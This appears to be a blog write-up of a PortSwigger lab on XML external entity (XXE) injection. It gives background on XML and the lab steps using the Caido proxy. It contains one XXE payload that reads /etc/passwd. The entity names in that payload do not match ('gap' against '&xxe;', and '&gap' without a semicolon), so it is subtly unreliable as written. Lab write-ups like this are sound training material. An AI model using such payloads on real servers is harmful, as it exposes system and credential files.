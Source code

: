 ```yaml
---
title: "XML external entity injection XXE"
date: 2025-05-15T16:06:04+01:00
draft: false
tags: ["Security", "XXE", "web", "Portswigger"]
categories: ["web"]
type: "portswigger"
description: "A practical walkthrough of XML External Entity (XXE) injection vulnerabilities using PortSwigger labs. Learn how attackers exploit XML parsers to access server files and sensitive data, with hands-on examples, payloads, and tips for detection and prevention."
---
```


XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access.
-Portswigger- https://portswigger.net/web-security/xxe

Background 

XML, Extensible Markup Langauge is a language designed for storing and transporting data. Like HTML, XML uses a tree-like structure of tags and data. Unlike HTML, XML does not use predefined tags, and so tags can be given names that describe the data. Earlier in the web's history, XML was in vogue as a data transport format (the "X" in "AJAX" stands for "XML"). But its popularity has now declined in favor of the JSON format.
-Portswigger- https://portswigger.net/web-security/xxe/xml-entities


Code Academy, introduction to XML
https://www.youtube.com/watch?v=O7fmNwbtCjo

Data flow from Server to client and client to server via JSON and XML

**Portswigger XXE Lab: Apprentice**

Sign in and start the lab

![](1.png)

Start Caido and look for the post request once you use the "checkstock" button on the website.

![](2a.png)

Create a system call:
```
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY gap SYSTEM "file:///etc/passwd"> ]> <stockCheck><productId>&xxe;</productId></stockCheck>
```

then replace the productID with your call:
```&gap```

![](2.png)

![](3.png)

Yay!